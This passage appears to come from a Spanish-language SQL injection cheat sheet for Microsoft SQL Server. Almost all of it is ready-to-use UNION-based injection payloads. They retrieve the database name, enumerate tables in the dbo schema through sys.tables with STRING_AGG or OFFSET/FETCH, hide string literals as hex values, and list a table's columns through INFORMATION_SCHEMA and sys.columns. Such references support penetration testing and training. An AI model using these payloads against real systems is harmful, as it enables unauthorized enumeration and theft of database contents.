 
```sql
' UNION SELECT NULL, DB_NAME()--
```

- **Listar tablas del schema dbo (concatenadas, si STRING_AGG disponible):**
    

```sql
' UNION SELECT NULL, (SELECT STRING_AGG(name, ',') FROM sys.tables WHERE schema_id = SCHEMA_ID('dbo'))--
```

- **Listar tablas fila a fila (OFFSET/FETCH):**
    

```sql
' UNION SELECT NULL, name FROM sys.tables WHERE schema_id = SCHEMA_ID('dbo') ORDER BY name OFFSET 0 ROWS FETCH NEXT 1 ROWS ONLY--
```

---

## Cadenas hexadecimales y conversión

En SQL Server podemos usar literales hex `0x...` o `CONVERT`/`CAST` para transformar datos.

- Insertar una cadena desde hex:
    

```sql
SELECT CONVERT(VARCHAR(100), 0x7065626C6963); -- ejemplo de conversión hex -> texto
```

- En un payload:
    

```sql
' UNION SELECT NULL, (SELECT name FROM sys.schemas WHERE name = CONVERT(VARCHAR(100), 0x5045544552)) --
```

---

## Listar columnas de una tabla

- Usando `INFORMATION_SCHEMA.COLUMNS`:
    

```sql
' UNION SELECT NULL, COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME = 'PRODUCT' AND TABLE_SCHEMA = 'dbo'--
```

- Usando catálogo de sistema (`sys.columns`):
    

```sql
' UNION SELECT NULL, c.name FROM sys.columns c JOIN sys.tables t ON c.object_id = t.object_id WHERE t.name = 'PRODUCT' AND SCHEMA_NAME(t.schema_id) = 'dbo'--
```

---
